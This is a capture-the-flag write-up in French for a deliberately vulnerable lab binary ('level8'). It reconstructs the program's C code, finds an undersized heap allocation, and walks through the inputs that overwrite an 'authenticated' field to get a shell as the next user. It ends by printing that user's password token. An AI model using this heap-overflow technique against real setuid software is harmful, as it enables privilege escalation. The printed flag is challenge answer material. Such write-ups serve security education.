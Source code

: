 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2008(level8) gid=2008(level8) groups=2008(level8),100(users)
/home/user/level8
total 17
dr-xr-x---+ 1 level8 level8   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level8 level8  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level8 level8 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level9 users  6057 Mar  6  2016 level8
-rw-r--r--+ 1 level8 level8   65 Sep 23  2015 .pass
-rw-r--r--  1 level8 level8  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level8 :

```bash
$ ./level8
(nil), (nil)
da
(nil), (nil)
da da
(nil), (nil)
^C
$ ./level8 da
(nil), (nil)
^C
$ ./level8 da da
(nil), (nil)
^C
```

Je recoupe l'analyse ASM du binaire avec GDB des résultats obtenus sur [Dogbolt](https://dogbolt.org/?id=c81dd233-7ccb-4ab8-8074-27857c96eb14) et en extrait une version probable du code :

```c
struct user {
    int id;
    char login[28];
    int authenticated;
};

int *service;
struct user *user; 

int main() {
    while (1) {
        printf("%p, %p \n", user, service);

        char buffer[128];

        if (!(fgets(buffer, 128, stdin)))
            break;

        if (!(strncmp(buffer, "auth ", 5))) {
            user = malloc(4); // <--------------1 structure user needs 28 + 4 + 4 bytes, but only 4 are allocated
            user->id = 0;

            if (strlen(buffer + 5) <= 30)
                strcpy(user, buffer + 5);
        }

        if (!(strncmp(buffer, "reset", 5)))
            free(user);

        if (!(strncmp(buffer, "service", 6)))
            service = strdup(buffer + 7); // <--2 this will make the global variable service write over the memory of the 'user' struct and without limit

        if (!(strncmp(buffer, "login", 5))) {
            if (user->authenticated) // <-------3 by writing into service with value different than 0, we eventually write over user->authenticated
                system("/bin/sh"); // <---------4 pass the check and get shell access
            else
                fwrite("Password:\n", 1, 10, stdout);
        }
    }
    return 0;
}
```

Je note la présence de variables nommées '`auth`' et '`password`', ainsi que des strings litérale `"login"`, '`service`', etc..
Le binaire semble agir comme une sorte de menu dans lequel on peut modifier des informations en écrivant un choix.

Je vérifie cette hypothèse :

```bash
$ ./level8
(nil), (nil)
auth adam
0x804a008, (nil)
(waiting for input)
```

Ok, c'est donc bien un binaire qui agit comme une sorte de menu. J'analyse ses fonctions :

- `auth` semble déclarer un nouvel utilisateur.
- `reset` semble `free` (supprimer) cet utilisateur
- `service` semble stocker une valeur dans la variable globale `service`.
- `login` semble être la clé de ce level, il semble que `login` vérifie le password et, si il est bon, donne accès au shell.


Si mon interprétation est correcte, alors la vulnérabilité semble être ici :

```c
    if (!(strncmp(buffer, "auth ", 5))) {
        user = malloc(4);
        user->id = 0;

        if (strlen(buffer + 5) <= 30) 
            strcpy(user, buffer + 5);
    }
```

On observe que la structure `user` se voit attribué seulement 4 bytes. Or, la structure nécessiterait plus d'espace que 4 bytes.

Je tente d'obtenir plus d'information en utilisant `ltrace` et en appellant `auth ` :

```bash
$ ltrace ./level8
__libc_start_main(0x8048564, 1, 0xbffff804, 0x8048740, 0x80487b0 <unfinished ...>
printf("%p, %p \n", (nil), (nil)(nil), (nil)
)                                                           = 14
fgets(auth
"auth \n", 128, 0xb7fd1ac0)                                 = 0xbffff6e0
malloc(4)                                                   = 0x0804a008
strcpy(0x0804a008, "\n")                                    = 0x0804a008
printf("%p, %p \n", 0x804a008, (nil)0x804a008, (nil)
)                                                           = 18
fgets(
```

Puis en appellant `service` :

```bash
fgets(service
"service\n", 128, 0xb7fd1ac0)                               = 0xbffff6e0
strdup("\n")                                                = 0x0804a018
printf("%p, %p \n", 0x804a008, 0x804a0180x804a008, 0x804a018
)                                                           = 22
fgets(
```

Je détermine que la taille de buffer login dans la structure `user` est de 28 (malgré la comparaison à <= 30 dans `auth`) en me basant sur le retour de `BinaryNinja` qui indique :

```c
if (*(auth + 0x20) == 0)
{
    var_a4 = stdout;
    fwrite("Password:\n", 1, 0xa, var_a4);
}
```

Ici, le binaire veut vérifier la valeur du troisième int de la structure en allant à l'adresse du début de celle-ci + 32 bytes, soit 4 pour l'int `id` puis 28 bytes pour le `login`.

Alors, le manque de byte alloué devient évident en regardant les adresses renvoyées par `ltrace` :

Au moment de `strcpy()`, la structure `user` pointe sur l'adresse : `0x0804a008` mais lorsqu'on attribue une valeur à la variable globale `service`, `ltrace` nous indique qu'on écrit à l'adresse `0x0804a018`... Ce qui est `0x10` bytes plus loin (16). 

Or, la structure `user` nécessiterait au moins 4 bytes pour son `id`, 28 pour son login, et enfin 4 bytes de plus pour le 'booléen' `authenticated` utilisé dans `login`.

La structure nécessiterait donc entre 4 + 28 + 4 = 36 bytes.

Si mes hypothèses sont correctes, alors, et puisque `authenticated` n'est jamais attribué nul part, puisque de toute manière écrasé par `service`, il me suffirait donc d'atteindre la variable `authenticated` et lui donner une valeur positive pour que le login fonctionne.

Je pourrais donner un payload infecté à `service`, qui est 16 bytes plus loin que le début de la structure `user`, et ajouter du padding jusqu'à que service écrive sur la valeur de notre structure `user`, a son paramètre `authenticated`.

Si je considère que l'`id` vaut 4 bytes, puis 28 bytes de `login`, puis 4 bytes pour `authenticated`, je peux en conclure qu'une fois les 16 bytes écrasés par `service`, je me trouve à (4 + 28) - 16 = 16 bytes restant pour le login, et je pourrais ensuite écrire sur `authenticated`.

Mon payload/exploit serait donc le suivant :

- Je m'`auth ` pour déclarer une structure user
- J'appelle `service` écrit 15 caractères de padding ce qui devrait donner une valeur booléenne valide à `authenticated` (j'espace service et les 15 caractère, donc le 17eime caractère devrait écrire sur `authenticated`, et ce sera le `\n`)
- J'appelle `login` et si j'obtiens le shell, alors ça signifie que j'ai bien ré-écris `authenticated`, sinon je retente avec 18 caractère de padding (cas de figure où le login faisait 30 bytes)

J'essaye mon exploit :

```bash
$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service ABCDEFGHIJKLMNOP (espace + 16 lettres de l'alphabet => P donnera sa valeur à user->authenticated)
0x804a008, 0x804a018
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

C'est un succès !







